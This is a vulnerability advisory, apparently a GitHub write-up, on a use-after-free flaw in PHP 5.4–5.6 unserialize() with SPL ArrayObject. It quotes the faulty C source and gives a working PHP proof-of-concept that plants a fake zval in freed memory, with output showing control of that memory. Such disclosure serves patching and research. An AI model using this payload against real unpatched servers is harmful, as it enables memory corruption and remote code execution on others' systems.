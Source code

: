 #Use After Free Vulnerability in unserialize() with SPL ArrayObject
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.7.30 - Release Date: 2015.8.7
 
> A use-after-free vulnerability was discovered in unserialize() with SPL ArrayObject object's deserialization that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.12  
Affected is PHP 5.5 < 5.5.28  
Affected is PHP 5.4 < 5.4.44

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

```
	if (*p!= 'x' || *++p != ':') {
		goto outexcept;
	}
	++p;

	ALLOC_INIT_ZVAL(pflags);
	if (!php_var_unserialize(&pflags, &p, s + buf_len, &var_hash TSRMLS_CC) || Z_TYPE_P(pflags) != IS_LONG) {
		zval_ptr_dtor(&pflags);
		goto outexcept;
	}

	--p; /* for ';' */
	flags = Z_LVAL_P(pflags);
	zval_ptr_dtor(&pflags);  <===  free memory
	
	...

	/* members */
	if (*p!= 'm' || *++p != ':') {
		goto outexcept;
	}
	++p;

	ALLOC_INIT_ZVAL(pmembers);
	if (!php_var_unserialize(&pmembers, &p, s + buf_len, &var_hash TSRMLS_CC) || Z_TYPE_P(pmembers) != IS_ARRAY) {
		zval_ptr_dtor(&pmembers);
		goto outexcept;
	}

	/* copy members */
	if (!intern->std.properties) {
		rebuild_object_properties(&intern->std);
	}
	zend_hash_copy(intern->std.properties, Z_ARRVAL_P(pmembers), (copy_ctor_func_t) zval_add_ref, (void *) NULL, sizeof(zval *));
	zval_ptr_dtor(&pmembers);  <===  free memory

	/* done reading $serialized */

	PHP_VAR_UNSERIALIZE_DESTROY(var_hash);
	return;
```

The zval_ptr_dtor() leads to &pflags and &pmembers are freed from memory. However the unserialize() will still allow to use R: or r: to set references to that already freed memory. It is possible to use-after-free attack and execute arbitrary code remotely.

Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.11 installation of PHP 5.4.43.

```
<?php

$fakezval = ptr2str(1122334455);
$fakezval .= ptr2str(0);
$fakezval .= "\x00\x00\x00\x00";
$fakezval .= "\x01";
$fakezval .= "\x00";
$fakezval .= "\x00\x00";

$inner = 'x:i:1234;a:0:{};m:a:0:{}';
$exploit = 'a:2:{i:0;C:11:"ArrayObject":'.strlen($inner).':{'.$inner.'}i:1;R:3;}';

$data = unserialize($exploit);

for ($i = 0; $i < 5; $i++) {
    $v[$i] = $fakezval.$i;
}

var_dump($data);

function ptr2str($ptr)
{
	$out = "";
	for ($i = 0; $i < 8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line:

```
$ php uafpoc.php
array(2) {
  [0]=>
  object(ArrayObject)#1 (1) {
    ["storage":"ArrayObject":private]=>
    array(0) {
    }
  }
  [1]=>
  int(1122334455)  <===  so we can control the memory and create fake ZVAL :)
}
```

